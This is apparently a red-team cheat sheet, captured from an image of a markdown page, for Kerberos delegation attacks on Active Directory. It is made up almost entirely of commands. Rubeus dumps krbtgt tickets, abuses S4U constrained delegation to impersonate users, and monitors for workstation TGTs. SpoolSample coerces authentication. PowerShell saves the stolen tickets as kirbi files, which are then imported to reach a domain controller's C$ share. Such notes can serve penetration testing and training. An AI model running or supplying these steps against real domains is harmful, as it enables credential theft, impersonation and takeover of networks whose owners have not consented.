 ```
execute-assembly C:\Tools\Rubeus\Rubeus.exe dump /luid:<LUID> /service:krbtgt /nowrap
```

request the msdsspn for a constrained delegation user/server and a known user who can access it

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:eventlog/dc.child.test.local /altservice:cifs /user:srv-2$ /ticket:do...=
  /nowrap
```

Create kirbi from ticket that was returned

```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\dc.kirbi", [System.Convert]::FromBase64String("doI...="))
```

import kirbi file

```
make_token CHILD\USER password

kerberos_ticket_use C:\Users\Administrator\Desktop\cifs-dc.kirbi

ls \\dc-2.child.test.local\c$
```

### S4U2 Abuse

get ticket from target using spoolsample and unconstrained delegation to get a workstation$ TGT Monitor for a specific ticket from a server with unconstrained delegation

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe monitor /targetuser:workstation$ /interval:10 /nowrap
```

Force cohorsion with another wks

```
execute-assembly C:\Tools\SpoolSample\SpoolSample.exe <TARGET> <UNCONSTRAINED Server>
```

save ticket

```
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn.kirbi", [System.Convert]::FromBase64String("..."))
```

then request a TGS, it will have a failure message at the bottom but thats okay we just want the TGS outputted

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe s4u /user:<TARGET>$ /msdsspn:cifs/workstation.child.test.local /impersonateuser:nlamb /ticket:doIF...P  /nowrap
```

save ticket
